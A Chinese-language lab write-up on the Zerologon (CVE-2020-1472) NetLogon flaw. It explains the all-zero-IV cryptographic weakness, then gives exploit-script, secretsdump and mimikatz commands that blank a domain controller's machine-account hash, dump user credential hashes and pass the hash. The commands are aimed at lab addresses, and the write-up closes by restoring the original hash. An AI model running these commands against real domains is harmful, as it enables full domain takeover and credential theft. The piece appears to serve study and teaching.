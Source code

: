 # NetLogon 权限提升漏洞

参考文章：[CVE-2020-1472NetLogon权限提升漏洞_cve-2020-1472复现 谢公子-CSDN博客](https://blog.csdn.net/qq_36119192/article/details/109030009?ops_request_misc=%7B%22request%5Fid%22%3A%22524f607ea00fc0d3bf10a4915dd00f7b%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fblog.%22%7D&request_id=524f607ea00fc0d3bf10a4915dd00f7b&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-109030009-null-null.nonecase&utm_term=netlogon&spm=1018.2226.3001.4450)

- 域控机器账户：WIN-0V0GAORDC17
- 域控 ip：192.168.72.163
- 域内攻击者机器 ip：192.168.72.158，host：WIN10-01
- 攻击者 kali 机器 ip：192.168.72.162

### NetLogon服务

Netlogon 是一个 Windows Server 进程，用于对域内的用户和其他服务进行身份验证。由于它是一项服务而不是应用程序，因此 Netlogon 会在后台持续运行，除非手动或因运行时错误而停止。可以从命令行终端停止或重新启动 Netlogon。最常见的是让用户使用 NTLM 协议登录服务器。默认情况下，Netlogon 服务在域内所有机器后台运行着，该服务的可执行文件路径为 C:\Windows\system32\lsass.exe。

### NetLogon认证流程

![image-20241117150857854](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241117150857854.png)

1. 客户端调用 NetrServerReqChallenge 函数给服务端发送随机8字节 Client Challenge 值。
2. 服务端调用 NetrServerReqChallenge 函数给客户端发送随机8字节 Server Challenge 值。
3. 双方同时生成 Session Key=KDF(secret,(Client Challenge+Server Challenge)) ，此secret是客户端机器账号的哈希值。
4. 客户端使用 Session Key 作为密钥对 Client Challenge 加密运算为 Client Credential 并发给服务器，服务端进行相同步骤的运算并将结果与 Client Credential进行对比，相同则表示客户端有正确的凭据。
5. 服务端使用 Session Key 作为密钥对 Server Challenge 值加密运算为 Server Credential 并发给客户端，客户端进行相同步骤的运算并将结果与 Server Credential 进行对比，相同则表示服务端拥有相同Session Key。
6. 使用 Session Key 加密流量通信。

##### Session Key的生成

Session Key=KDF(secret,(Client Challenge+Server Challenge))，三种加密算法可选：AES、Strong-key 、DES。但是现代的 Windows server 通常拒绝 Strong-key 和 DES，所以都用 AES 加密。

1. md4 加密算法运算 SharedSecret 得到 M4SS，此 SharedSecret 是客户端机器账号的哈希值。
2. M4SS 作为密钥使用 HMAC-SHA256 算法对 Client Challenge 和 Server Challenge 进行一系列运算得到的结果取低 16 字节作为 Session Key。

```
 ComputeSessionKey(SharedSecret, ClientChallenge, 
                   ServerChallenge)
      M4SS := MD4(UNICODE(SharedSecret)) 
  
      CALL SHA256Reset(HashContext, M4SS, sizeof(M4SS));
      CALL SHA256Input(HashContext, ClientChallenge, sizeof(ClientChallenge));
      CALL SHA256FinalBits (HashContext, ServerChallenge, sizeof(ServerChallenge));
      CALL SHA256Result(HashContext, SessionKey);
      SET SessionKey to lower 16 bytes of the SessionKey;
```

##### Credential 的生成

由于现代的 windows server 都拒绝 Strong-key 和 DES，所以都用 AES 加密

![image-20241117154022982](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241117154022982.png)

1. 初始化 16 字节 IV（上图黄色部分），对 IV 使用 Session Key 作为密钥，AES 算法加密后获取密文第一个字节。
2. 将此字节与 Challenge（上图蓝色部分）得第一个字节进行异或运算，将运算后的结果（上图的e3）放在IV末尾，同时覆盖了Challenge的第一个字节。
3. 抛弃原 IV 的第一个字节，从第二个字节开始一直到之前运算的字节（上图的e3）作为新的IV，也就是IV整体后移了一位。
4. 取完这个 IV 后重放上述操作。

微软使用 ComputeNetlogonCredential 来生成 Credential，传入一个 SessionKey，局部变量初始化一个 IV，AES加密后得到 Credential。

```
 ComputeNetlogonCredential(Input, Sk, 
              Output)
  
       SET IV = 0
       CALL AesEncrypt(Input, Sk, IV, Output)
```

### 漏洞原理

135 端口的 netlogon 协议加密模块存在缺陷，导致攻击者使用管理员权限访问 135 端口调用远程 RPC 服务重置域控制器机器账号 hash。

在上述的 NetLogon 身份验证过程中，客户端是在第4步向服务端发送Client Credential进行的身份验证，但是客户端发送的Client Credential有1/256的概率全为0，这是因为微软在ComputeNetlogonCredential函数中生成Credential时，IV被初始化为全0，如下图所示：

![image-20241117155531123](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20241117155531123.png)

1. IV（上图黄色部分）全为0，Client Challenge（上图蓝色部分）因为我们可控全为0
2. 只要 AES 加密算法对全 0 位的 16 字节进行运算的到的结果的第一个字节为 00，那么最终结果Credential就为全0位
   - 此时加密密钥为Session Key，而此Session Key=KDF(secret,(Client Challenge+Server Challenge))，也就是随机生成的，而随机生成的Session Key对全0位的16字节进行AES运算后，得到的结果第一个字节为00的概率是1/256
   - 服务端是通过Client Credential来验证客户端身份信息，如果步骤4生成的Credential为全0位，则其同样是合法的，我们能在步骤4时无限发送全0位的Client Credential来以1/256的概率爆破出合法的会话

注：上文的NetLogon认证流程中，第6步，也就是会话建立时，是有Session Key加密通信的，但是就算这个漏洞利用成功，我们也只能通过第4步骤的身份验证，并不能构造出合法的Session Key加密通信，所以在Net Logon身份认证时，需要设置标志位来取消加密会话，下面的攻击脚本就设置了flag标志位为0x212fffff，此标志位包含了取消加密会话的标志选项

### 漏洞实验

脚本 zerologon_tester.py 和 cve-2020-1472-exploit.py

##### zerologon_tester.py

```
# 检测是否存在漏洞
python zerologon_tester.py WIN-0V0GAORDC17 192.168.72.163
```

##### CVE-2020-1472.py

```
# 攻击，使域控的机器账号哈希置为空
python cve-2020-1472-exploit.py WIN-0V0GAORDC17 WIN-0V0GAORDC17$ 192.168.72.163
```

![image-20250201151433546](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250201151433546.png)

##### 远程连接域控

```
# 使用 WIN-0V0GAORDC17$机器账号，哈希为空连接，导出 administrator 用户的哈希
python secretsdump.py HACKER.com/WIN-0V0GAORDC17$@192.168.72.163    -no-pass -just-dc-user "administrator"

# 导出所有用户哈希
python secretsdump.py HACKER.com/WIN-0V0GAORDC17$@192.168.72.163    -no-pass
```

![image-20250201152658445](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250201152658445.png)

### mimikatz漏洞实验

##### 检测是否存在漏洞

```
# 使用 mimikatz 执行如下命令检测目标域控是否存在 Netlogon 权限提升漏洞。
mimikatz.exe "privilege::debug" "lsadump::zerologon /target:192.168.72.163 /account:WIN-0V0GAORDC17$" "exit"
```

##### 重置域控hash（攻击机在域中）

```
mimikatz.exe "lsadump::zerologon /target:WIN-0V0GAORDC17.HACKER.com /ntlm /null /account:WIN-0V0GAORDC17$ /exploit" "exit"
```

##### 重置域控hash（攻击机在域外）

```
mimikatz.exe "lsadump::zerologon /target:192.168.72.163 /ntlm /null /account:WIN-0V0GAORDC17$ /exploit" "exit"
```

##### 远程连接域控

```
#导出指定 administrator 用户哈希
mimikatz.exe "lsadump::dcsync /csv /domain:HACKER.com /dc:WIN-0V0GAORDC17.HACKER.com /user:administrator /authuser:WIN-0V0GAORDC17$ /authpassword:\"\" /authntlm" "exit" lsadump::dcsync /domain:HACKER.com /dc:WIN-0V0GAORDC17.HACKER.com /user:administrator /authuser:WIN-0V0GAORDC17$ /authpassword:""/authntlm

#然后用 administrator 用户的哈希进行 pth 攻击连接域控，这一步需要 privilege::debug 提权
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:192.168.72.163 /rc4:33e17aa21ccc6ab0e6ff30eecb918dfb" "exit"
```

### 恢复御用机器账户hash

##### 获得域控机器账号的原始哈希

```
# 使用 mimikatz 的 sekurlsa::logonpassword 模块执行如下命令从 lsass.exe进程里面抓取域控机器账号 WIN-0V0GAORDC17$ 的原始哈希
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

![image-20250201153450570](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250201153450570.png)

```
# 恢复域控哈希
python reinstall_original_pw.py WIN-0V0GAORDC17 192.168.72.163 eace846f4b183390a111a1888b96beff
```

![image-20250201153828498](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E5%86%85%E5%B8%B8%E8%A7%84%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/images/image-20250201153828498.png)



